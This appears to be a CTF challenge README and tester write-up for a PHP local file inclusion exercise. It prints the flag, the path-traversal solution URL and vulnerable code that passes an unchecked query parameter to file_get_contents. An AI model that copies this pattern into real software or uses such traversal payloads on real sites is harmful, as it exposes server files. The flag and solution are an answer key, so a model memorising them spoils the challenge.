# LFI
Contains the LFI challenge for the upcoming CSAW quals


# Challenge Description

Hey! I made a cool websites that shows off some poems. See if you can find the flag somewhere!


# Flag

`flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}`



# Example solution

`http://localhost/?poem=../flag.txt`


# Write-up

The `poem ` parameter controls the file to show. I tried include `index.php` first.

```
http://localhost:5000/poems/?poem=index.php
```

I can see the source code:

```
<?php
    $file_name  = $_GET["poem"];
    echo "<pre>";
    echo file_get_contents(  $file_name ) . "<br>";
    echo "</pre>";
?>
```

So there's no any checking on filename or path for directory transversal, I can simply include the flag like this:

```
http://localhost:5000/poems/?poem=../flag.txt
```

It shows:

```
flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}
```

# Comment

It took me about 5 min to solve this challenge. I think the point is a little bit high for its difficulty.

I think this question is pretty clear because it shows warnings about file inclusion on the web page.

And I believe that reading the flag directly is the easiest path to solve this challenge.

It's easy to deploy and the flag in the challenge matches the flag in `challenge.json`.
